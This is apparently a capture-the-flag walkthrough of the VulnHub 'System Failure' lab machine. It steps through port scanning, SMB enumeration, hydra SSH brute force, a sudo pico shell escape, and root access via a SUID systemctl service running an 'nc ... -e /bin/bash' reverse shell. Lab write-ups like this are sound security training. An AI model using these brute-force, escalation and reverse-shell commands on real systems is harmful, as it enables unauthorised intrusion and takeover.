


# Walkthrough VULNHUB --> SYSTEM FAILURE

### Thanks to my friend 0xJin for this funny machine

First step is to scan our Netwok to find the machine IP, in my case the host has ip 192.168.1.109.

We use nmap to scan the target machine with the command:

```bash
nmap -sC -sV -p- 192.168.1.109
```

```bash
┌──(root💀kali)-[/home/animale]
└─# nmap -sC -sV -p- 192.168.1.109
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-14 07:07 EDT
Nmap scan report for SystemFailure.homenet.telecomitalia.it (192.168.1.109)
Host is up (0.00016s latency).
Not shown: 65530 closed ports
PORT    STATE SERVICE     VERSION
21/tcp  open  ftp         vsftpd 3.0.3
22/tcp  open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 bb:02:d1:ee:91:11:fe:a0:b7:90:e6:e0:07:49:95:85 (RSA)
|   256 ef:e6:04:30:01:50:07:5d:2d:17:99:d1:00:3d:f2:d6 (ECDSA)
|_  256 80:7f:c5:96:0e:3d:66:b9:d6:a8:6f:59:fa:ca:86:36 (ED25519)
80/tcp  open  http        Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Site doesn't have a title (text/html).
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
MAC Address: 08:00:27:50:19:B3 (Oracle VirtualBox virtual NIC)
Service Info: Host: SYSTEMFAILURE; OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h20m01s, deviation: 2h18m34s, median: 0s
|_nbstat: NetBIOS name: SYSTEMFAILURE, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery:
|   OS: Windows 6.1 (Samba 4.9.5-Debian)
|   Computer name: systemfailure
|   NetBIOS computer name: SYSTEMFAILURE\x00
|   Domain name: homenet.telecomitalia.it
|   FQDN: systemfailure.homenet.telecomitalia.it
|_  System time: 2021-06-14T07:08:11-04:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2021-06-14T11:08:11
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.45 seconds
```

Let's run gobuster to see what's in the web server

```bash
┌──(root💀kali)-[/home/animale]
└─# gobuster dir --url http://192.168.1.109 -x .php,.txt,.js,.html --wordlist /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 50
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.1.109
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              js,html,php,txt
[+] Timeout:                 10s
===============================================================
2021/06/14 07:10:01 Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 161]
/server-status        (Status: 403) [Size: 278]
/area4                (Status: 301) [Size: 314] [--> http://192.168.1.109/area4/]

===============================================================
2021/06/14 07:13:05 Finished
===============================================================
```

We navigate to the index.html and we have the following:


Nothing there!

Let's try on to see area4:


Nothing there!

Let's check for shares on the host :

```bash
┌──(root💀kali)-[/home/animale]
└─# smbmap -u victim -p s3cr3t -H 192.168.1.109
[+] Guest session       IP: 192.168.1.109:445   Name: SystemFailure.homenet.telecomitalia.it
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        print$                                                  NO ACCESS       Printer Drivers
        anonymous                                               READ, WRITE     open
        IPC$                                                    NO ACCESS       IPC Service (Samba 4.9.5-Debian)
```

It appears that anonymous folder give us Read and Write permission

Let's connect through smbclient:

```bash
┌──(root💀kali)-[/home/animale]
└─# smbclient //192.168.1.109/anonymous
Enter WORKGROUP\root's password:
Try "help" to get a list of possible commands.
smb: \> pwd
Current directory is \\192.168.1.109\anonymous\
smb: \> ls
  .                                   D        0  Mon Jun 14 07:13:41 2021
  ..                                  D        0  Wed Dec 16 09:58:53 2020
  share                               N      220  Thu Dec 17 16:25:14 2020

                7205476 blocks of size 1024. 5291292 blocks available
smb: \> ls
  .                                   D        0  Mon Jun 14 07:13:41 2021
  ..                                  D        0  Wed Dec 16 09:58:53 2020
  share                               N      220  Thu Dec 17 16:25:14 2020

                7205476 blocks of size 1024. 5291292 blocks available

```

We see only one file called **share**. Let's see what is in it

```bash
smb: \> more share
```


We go on [https://crackstation.net/](https://crackstation.net/) and we paste the string we found


We found the password **qazwsxedc** for the user Admin

Let's continue to find info with **enum4linux**:

```bash
enum4linux 192.168.1.109
```

We find that there are 4 linux users:

```bash
[+] Enumerating users using SID S-1-22-1 and logon username '', password ''
S-1-22-1-1000 Unix User\valex (Local User)
S-1-22-1-1001 Unix User\admin (Local User)
S-1-22-1-1002 Unix User\jin (Local User)
S-1-22-1-1003 Unix User\superadmin (Local User)
```

Let's try now to use the instructions from the message we found.

```bash
┌──(root💀kali)-[/home/animale]
└─# ftp 192.168.1.109
Connected to 192.168.1.109.
220 (vsFTPd 3.0.3)
Name (192.168.1.109:animale): admin
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> pwd
257 "/home/admin" is the current directory
```

**We are IN!!!**

Let's see what we find:

```bash
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Dec 16 13:45 Interesting
drwxr-xr-x    2 0        0            4096 Dec 16 13:45 Secr3t
drwxr-xr-x    3 0        0            4096 Dec 20 06:25 Syst3m
drwxr-xr-x    2 0        0            4096 Dec 16 13:45 Useful
226 Directory send OK.
```

We have now to check all the folders!

```bash
ftp> cd Interesting
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
226 Directory send OK.
ftp>
```

Interesting is empty!!

```bash
ftp> cd Secr3t
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
226 Directory send OK.
ftp>
```

Secr3t is empty!!

```bash
ftp> cd Syst3m
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        0           36864 Dec 20 06:30 F4iluR3
-rw-r--r--    1 0        0              89 Dec 20 06:17 here.txt
226 Directory send OK.
```

Something in Syst3m. Let's check

We can't read the here.txt, so let's check the F4iluR3 folder

```bash
ftp> cd F4iluR3
250 Directory successfully changed.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0            1696 Dec 20 06:25 file.txt
-rw-r--r--    1 0        0            1696 Dec 20 06:26 file0001.txt
-rw-r--r--    1 0        0            1696 Dec 20 06:26 file0002.txt
-rw-r--r--    1 0        0            1696 Dec 20 06:26 file0003.txt
-rw-r--r--    1 0        0            1696 Dec 20 06:26 file0004.txt
-rw-r--r--    1 0        0            1696 Dec 20 06:26 file0005.txt
-rw-r--r--    1 0        0            1696 Dec 20 06:26 file0006.txt
-rw-r--r--    1 0        0            1696 Dec 20 06:26 file0007.txt
-rw-r--r--    1 0        0            1696 Dec 20 06:26 file0008.txt
-rw-r--r--    1 0        0            1696 Dec 20 06:26 file0009.txt
-rw-r--r--    1 0        0            1696 Dec 20 06:26 file0010.txt
-rw-r--r--    1 0        0            1696 Dec 20 06:26 file0011.txt
-rw-r--r--    1 0        0            1696 Dec 20 06:26 file0012.txt
-rw-r--r--    1 0        0            1696 Dec 20 06:26 file0013.txt
-rw-r--r--    1 0        0            1696 Dec 20 06:26 file0014.txt
-rw-r--r--    1 0        0            1696 Dec 20 06:26 file0015.txt
-rw-r--r--    1 0        0            1696 Dec 20 06:26 file0016.txt
-rw-r--r--    1 0        0            1696 Dec 20 06:26 file0017.txt
-rw-r--r--    1 0        0            1696 Dec 20 06:26 file0018.txt
-rw-r--r--    1 0        0            1696 Dec 20 06:26 file0019.txt
-rw-r--r--    1 0        0            1696 Dec 20 06:26 file0020.txt
-rw-r--r--    1 0        0            1696 Dec 20 06:26 file0021.txt
......... CONTINUE
```

#### 1001 Files

Let's downlad everything, but before doing it, let's close the connection and create a /tmp/SystemFailure folder

```bash
┌──(root💀kali)-[/home/animale]
└─# mkdir /tmp/SystemFailure

┌──(root💀kali)-[/home/animale]
└─# cd /tmp/SystemFailure
```

#### Now we can reconnect and download all the txt files

```bash
┌──(root💀kali)-[/tmp/SystemFailure]
└─# ftp 192.168.1.109
Connected to 192.168.1.109.
220 (vsFTPd 3.0.3)
Name (192.168.1.109:animale): admin
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> cd Syst3m
250 Directory successfully changed.
ftp> cd F4iluR3
250 Directory successfully changed.
ftp> prompt off
Interactive mode off.
ftp> mget *
```

Keeping the ftp open, in a new terminal, we move into the /tmp/SystemFailure folder

```bash
┌──(root💀kali)-[/home/animale]
└─# cd /tmp/SystemFailure
```

Let's try to read some file...

```bash
┌──(root💀kali)-[/tmp/SystemFailure]
└─# cat file.txt
Systems Failure is a role-playing game written by Bill Coffin and published by Palladium Books in July 1999.The fictional premise for the game is that during the "Millennium bug" scare, actual "Bugs" appeared. They are energy beings from beyond Earth (whether another dimension or another planet is not clear) that invaded at the end of 1999, leaving a post-apocalyptic world in their wake. The Bugs feed on energy and are capable of transmitting themselves through modern power transmission and phone lines.The Bugs come in several varieties. There are the drone-like Army Ants who have only basic intelligence, the more intelligent Assassin Bugs who can replicate human speech, though imperfectly, and the flying Lightning Bugs, amongst others. All of them are able to turn themselves into energy or rapidly call up reinforcements. In addition to these, there are "brain bugs", a variety that can invade human minds and turn them into zombie-like servants of the Bugs.Players take the part of survivors of this invasion ten years after it occurred. Some groups, such as survival-oriented militias, were well-prepared for something to go wrong and so form the nuclei of stable societies and resistance to the Bugs. Military units have converged on NORAD which is using genetic engineering to create new weapons that the Bugs cannot gain control of, and to create super-soldiers, both those that have psionic powers and those who have been mutated into insect-like supermen using Bug DNA. In addition, there are people who have been driven mad by the stress, those who have joined gangs and seek to exploit others, and those who trade their skills as mechanics, medics, scientists, or merchants.
```

All the random files I opened were all the same.. Let's see if their size is all the same...

```bash
┌──(root💀kali)-[/tmp/SystemFailure]
└─# ls -ltr
......
-rw-r--r-- 1 root root 1696 Jun 14 08:28 file0175.txt
-rw-r--r-- 1 root root 1696 Jun 14 08:28 file0177.txt
-rw-r--r-- 1 root root 1696 Jun 14 08:28 file0176.txt
-rw-r--r-- 1 root root 1696 Jun 14 08:28 file0178.txt
-rw-r--r-- 1 root root 1696 Jun 14 08:28 file0180.txt
-rw-r--r-- 1 root root 1696 Jun 14 08:28 file0179.txt
-rw-r--r-- 1 root root 1696 Jun 14 08:28 file0181.txt
-rw-r--r-- 1 root root 1696 Jun 14 08:28 file0182.txt
-rw-r--r-- 1 root root 1696 Jun 14 08:28 file0184.txt
-rw-r--r-- 1 root root 1696 Jun 14 08:28 file0183.txt
-rw-r--r-- 1 root root 1696 Jun 14 08:28 file0185.txt
-rw-r--r-- 1 root root 1696 Jun 14 08:28 file0186.txt
-rw-r--r-- 1 root root 1696 Jun 14 08:28 file0187.txt
-rw-r--r-- 1 root root 1714 Jun 14 08:28 file0189.txt
-rw-r--r-- 1 root root 1696 Jun 14 08:28 file0188.txt
-rw-r--r-- 1 root root 1696 Jun 14 08:28 file0190.txt
-rw-r--r-- 1 root root 1696 Jun 14 08:28 file0191.txt
-rw-r--r-- 1 root root 1696 Jun 14 08:28 file0193.txt
-rw-r--r-- 1 root root 1696 Jun 14 08:28 file0192.txt
-rw-r--r-- 1 root root 1696 Jun 14 08:28 file0195.txt
-rw-r--r-- 1 root root 1696 Jun 14 08:28 file0194.txt
-rw-r--r-- 1 root root 1696 Jun 14 08:28 file0197.txt
-rw-r--r-- 1 root root 1696 Jun 14 08:28 file0196.txt
-rw-r--r-- 1 root root 1696 Jun 14 08:28 file0198.txt
-rw-r--r-- 1 root root 1696 Jun 14 08:28 file0199.txt
-rw-r--r-- 1 root root 1696 Jun 14 08:28 file0201.txt
-rw-r--r-- 1 root root 1696 Jun 14 08:28 file0200.txt
-rw-r--r-- 1 root root 1696 Jun 14 08:28 file0203.txt
-rw-r--r-- 1 root root 1696 Jun 14 08:28 file0202.txt
-rw-r--r-- 1 root root 1696 Jun 14 08:28 file0204.txt
-rw-r--r-- 1 root root 1696 Jun 14 08:28 file0206.txt
-rw-r--r-- 1 root root 1696 Jun 14 08:28 file0205.txt
-rw-r--r-- 1 root root 1696 Jun 14 08:28 file0207.txt
-rw-r--r-- 1 root root 1696 Jun 14 08:28 file0209.txt
-rw-r--r-- 1 root root 1696 Jun 14 08:28 file0208.txt
.......
```

#### NOTED SOMETHING??? FILE0189.txt is bigger than the others...

I opened the file0189 as well the file0188 to compare the differences:

```bash
┌──(root💀kali)-[/tmp/SystemFailure]
└─# cat file0189.txt
Systems Failure is a role-playing game written by Bill Coffin and published by Palladium Books in July 1999.The fictional premise for the game is that during the "Millennium bug" scare, actual "Bugs" appeared. They are energy beings from beyond Earth (whether another dimension or another planet is not clear) that invaded at the end of 1999, leaving a post-apocalyptic world in their wake. The Bugs feed on energy and are capable of transmitting themselves through modern power transmission and phone lines.The Bugs come in several varieties. There are the drone-like Army Ants who have only basic intelligence, the more intelligent Assassin Bugs who can replicate human speech, though imperfectly, and the flying Lightning Bugs, amongst others. All of them are able to turn themselves into energy or rapidly call up reinforcements. In addition to these, there are "brain bugs", a variety that can invade human minds and turn them into zombie-like servants of the Bugs.Players take the part of survivors of this invasion ten years after it occurred. Some groups, such as survival-oriented militias, were well-prepared for something to go wrong and so form the nuclei of stable societies and resistance to the Bugs. Military units have converged on NORAD which is using genetic engineering to create new weapons that the Bugs cannot gain control of, and to create super-soldiers-J310MIYla1aVUaSV-, both those that have psionic powers and those who have been mutated into insect-like supermen using Bug DNA. In addition, there are people who have been driven mad by the stress, those who have joined gangs and seek to exploit others, and those who trade their skills as mechanics, medics, scientists, or merchants.

┌──(root💀kali)-[/tmp/SystemFailure]
└─# cat file0188.txt
Systems Failure is a role-playing game written by Bill Coffin and published by Palladium Books in July 1999.The fictional premise for the game is that during the "Millennium bug" scare, actual "Bugs" appeared. They are energy beings from beyond Earth (whether another dimension or another planet is not clear) that invaded at the end of 1999, leaving a post-apocalyptic world in their wake. The Bugs feed on energy and are capable of transmitting themselves through modern power transmission and phone lines.The Bugs come in several varieties. There are the drone-like Army Ants who have only basic intelligence, the more intelligent Assassin Bugs who can replicate human speech, though imperfectly, and the flying Lightning Bugs, amongst others. All of them are able to turn themselves into energy or rapidly call up reinforcements. In addition to these, there are "brain bugs", a variety that can invade human minds and turn them into zombie-like servants of the Bugs.Players take the part of survivors of this invasion ten years after it occurred. Some groups, such as survival-oriented militias, were well-prepared for something to go wrong and so form the nuclei of stable societies and resistance to the Bugs. Military units have converged on NORAD which is using genetic engineering to create new weapons that the Bugs cannot gain control of, and to create super-soldiers, both those that have psionic powers and those who have been mutated into insect-like supermen using Bug DNA. In addition, there are people who have been driven mad by the stress, those who have joined gangs and seek to exploit others, and those who trade their skills as mechanics, medics, scientists, or merchants.
```

**The difference is J310MIYla1aVUaSV-**

It seems a Base32 or Base64 encoding, but it is not, so I went to [https://gchq.github.io/CyberChef](https://gchq.github.io/CyberChef) and tryed all the baseXX encoding, ending up to BASE62



#### Do you remember the 4 users we enumerate from smb?

I put into a txt file and tried to use the "password" we docrypted into hydra adding also the option -e nsr, which test for null password, use the username as password and reverse the username and input as password.

```bash
┌──(root💀kali)-[/tmp/SystemFailure]
└─# hydra -L users.txt -p /Sup3rS3cR37 192.168.1.109 ssh -t 4 -e nsr -I                                                                                           255 ⨯
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-06-14 09:40:18
[DATA] max 4 tasks per 1 server, overall 4 tasks, 16 login tries (l:4/p:4), ~4 tries per task
[DATA] attacking ssh://192.168.1.109:22/
[22][ssh] host: 192.168.1.109   login: valex   password: xelav

1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-06-14 09:40:30
```

### WE HAVE BEEN LUCKY!!!!

Let's connect via ssh to valex

```bash
┌──(root💀kali)-[/tmp/SystemFailure]
└─# ssh valex@192.168.1.109
valex@192.168.1.109's password:
Linux SystemFailure 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Jun  9 04:45:16 2021 from 192.168.1.200
valex@SystemFailure:~$
```

**WE ARE IN!!**

Do we have any sudo permission?

```bash
valex@SystemFailure:~$ sudo -l
Matching Defaults entries for valex on SystemFailure:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User valex may run the following commands on SystemFailure:
    (jin) NOPASSWD: /usr/bin/pico
valex@SystemFailure:~$
```

YES.. we can run pico and escalate the privileges to jin...

Let's see first if there is a flag

```bash
valex@SystemFailure:~$ ls
user.txt
valex@SystemFailure:~$ cat user.txt
1871828204892bc09be79e1a02607dbf
```

WE GOT IT!

Now let's escalate the privileges to jin

```bash
valex@SystemFailure:~$ sudo -u jin /usr/bin/pico

^R^X
reset; sh 1>&0 2>&0
```

We got the shell as jin



use /bin/bash to have a bash

Next we move into jin's home and check what is in it

```bash
jin@SystemFailure:/home/valex$ cd
jin@SystemFailure:~$ ls
secret.txt  user2.txt
```

The second flag!!! Let's open it and then see wath the secret.txt is.

```bash
jin@SystemFailure:~$ cat user2.txt
172c7b08a7507f08bab7694fd632839e
jin@SystemFailure:~$ cat secret.txt
Reminder: I had left something in /opt/system
jin@SystemFailure:~$
```

Let's go in /opt/system and see what he left

```bash
jin@SystemFailure:~$ cd /opt/system/
jin@SystemFailure:/opt/system$ ls
reminder.txt
jin@SystemFailure:/opt/system$ cat reminder.txt
System failure:
System failure:
System failure:
System failure:
System failure:
System failure:
System failure:
System failure:
System failure:
System failure:
System failure:
System failure:
System failure:
System failure:
System failure:
System failure:
System failure:
System failure:
System failure:
System failure:
System failure:
System failure:
System failure:
System failure:
System failure:
System failure:
System failure:
System failure:
System failure:
```

Let's check the sudo permission and the system commands

```bash
jin@SystemFailure:/opt/system$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for jin:
jin@SystemFailure:/opt/system$ find / -perm -u=s 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/mount
/usr/bin/umount
/usr/bin/systemctl
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/su
/usr/bin/sudo
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
jin@SystemFailure:/opt/system$
```

Jin user can run **systemctl**!!! So we get the root shell creating a service!!!

```bash
jin@SystemFailure:/opt/system$ echo '[Service]
> Type=oneshot
> ExecStart=nc 192.168.1.200 4444 -e /bin/bash
> [Install]
> WantedBy=multi-user.target' > $TF
bash: $TF: ambiguous redirect
jin@SystemFailure:/opt/system$ echo '[Service]
Type=oneshot
ExecStart=nc 192.168.1.200 4444 -e /bin/bash
[Install]
WantedBy=multi-user.target' > test.service
jin@SystemFailure:/opt/system$ ls
reminder.txt  test.service
Created symlink /etc/systemd/system/tmp.noEJj88ESX.service → /opt/.service.
```

Open a new terminal, without closing the connection with Jin, and run

```bash
┌──(root💀kali)-[/tmp/SystemFailure]
└─# nc -lvp 4444
listening on [any] 4444 ...
```

Now we go back to jin and run the service.

```bash
jin@SystemFailure:/opt/system$  /usr/bin/systemctl start test.service
```

### BOOM !!!!

We got our reverse shell

```bash
id
uid=0(root) gid=0(root) groups=0(root)
```

#### 1 flag left

```bash
export TERM=xterm
python -c "import pty;pty.spawn('/bin/bash')"
root@SystemFailure:/root# ls
ls
root.txt
root@SystemFailure:/root# cat ro
cat root.txt
If you are reading this flag, without being rooted, it is not valid. You must enter after send me a picture you entered jin, and tag me. Good luck.
root@SystemFailure:/root#
```

It seems that the flag is not there....
Let's run **ls -la**

```bash
ls -la
total 32
drwx------  4 root root 4096 Dec 20 05:38 .
drwxr-xr-x 18 root root 4096 Dec 16 03:54 ..
lrwxrwxrwx  1 root root    9 Dec 20 05:38 .bash_history -> /dev/null
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
drwxr-xr-x  3 root root 4096 Dec 16 04:19 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root  148 Dec 16 16:04 root.txt
drwxr-xr-x  2 root root 4096 Dec 16 12:28 .rpmdb
-rw-r--r--  1 root root  449 Dec 16 16:30 .SuP3rFin4Lfl4g.txt
cat .SuP3rFin4Lfl4g.txt

╔═╗┬ ┬┌─┐┌┬┐┌─┐┌┬┐  ╔═╗┌─┐┬┬  ┬ ┬┬─┐┌─┐
╚═╗└┬┘└─┐ │ ├┤ │││  ╠╣ ├─┤││  │ │├┬┘├┤
╚═╝ ┴ └─┘ ┴ └─┘┴ ┴  ╚  ┴ ┴┴┴─┘└─┘┴└─└─┘

I knew you would succeed.

Oh no.

2527f167fe33658f6b976f3a4ac988dd

Follow me and give feedback on Twitter: 0xJin

L1N5c3QzbUY0aUx1UjIzNTEyNA==

```

## DONE
